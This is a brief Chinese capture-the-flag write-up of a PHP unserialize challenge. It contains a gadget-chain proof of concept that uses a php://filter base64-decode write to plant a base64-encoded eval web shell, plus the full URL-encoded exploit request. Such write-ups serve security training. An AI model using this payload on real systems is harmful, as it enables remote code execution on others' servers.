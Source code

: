 ```php
{
    mkdir($dir);
}
unserialize($_GET["data"]);
```

简单反序列化, 代码有点复杂, 不过从 \_\_destruct 往前一步一步看就能弄明白了

主要考点是利用 php filter 去除开头的 `<?php exit();?>` 脏字符, 以 base64 为例

```php
<?php

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key, $expire){
        $this->store = $store;
        $this->key = $key;
        $this->expire = $expire;
    }
}

class B {
    public $options;
}

$b = new B();
$b->options = array(
    "prefix" => 'php://filter/write=convert.base64-decode/resource=',
    "serialize" => 'strval'
    );

$a = new A($b, '123.php', '456');

$a->autosave = False;
$a->cache = [];
$a->complete = "aaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMTIzNF0pOz8+";

echo urlencode(serialize($a));
```

开头加三个 aaa 是为了凑出来 4 bytes

```
http://616b4e74-f26c-4f6f-b466-dc88612c52e1.node4.buuoj.cn:81/?data=O%3A1%3A%22A%22%3A6%3A%7Bs%3A8%3A%22%00%2A%00store%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A7%3A%22options%22%3Ba%3A2%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A50%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3D%22%3Bs%3A9%3A%22serialize%22%3Bs%3A6%3A%22strval%22%3B%7D%7Ds%3A6%3A%22%00%2A%00key%22%3Bs%3A7%3A%22123.php%22%3Bs%3A9%3A%22%00%2A%00expire%22%3Bs%3A3%3A%22456%22%3Bs%3A8%3A%22autosave%22%3Bb%3A0%3Bs%3A5%3A%22cache%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22complete%22%3Bs%3A43%3A%22aaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMTIzNF0pOz8%2B%22%3B%7D
```
